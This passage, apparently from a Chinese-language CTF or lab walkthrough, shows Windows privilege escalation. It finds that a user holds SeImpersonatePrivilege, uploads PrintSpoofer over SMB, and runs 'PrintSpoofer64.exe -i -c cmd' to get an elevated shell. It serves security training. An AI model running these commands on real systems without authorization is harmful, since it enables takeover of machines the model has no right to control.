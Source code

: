 由上图可知 当前用户似乎启用了 SeImpersonatePrivilege 令牌权限，这意味着我们可以使用令牌模拟来提升权限；接下来我们需要在目标机上执行一个漏洞利用程序--下载[PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)，并将该 exe 文件上传到目标机（可以通过 SMB 服务上传文件）。

[![](assets/1706771526-8ca8dcd796c79a79dd111c6c5a515f19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223355-6e1cde34-beb3-1.png)

```plain
dir /s /b c:\ | find "PrintSpoofer64.exe"
```

全局搜索一下刚刚上传的这个 exe 的位置

```plain
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -i -c cmd
```

[![](assets/1706771526-711388814998c7e20bd1f9f36834bab0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223400-71429234-beb3-1.png)

成功提权
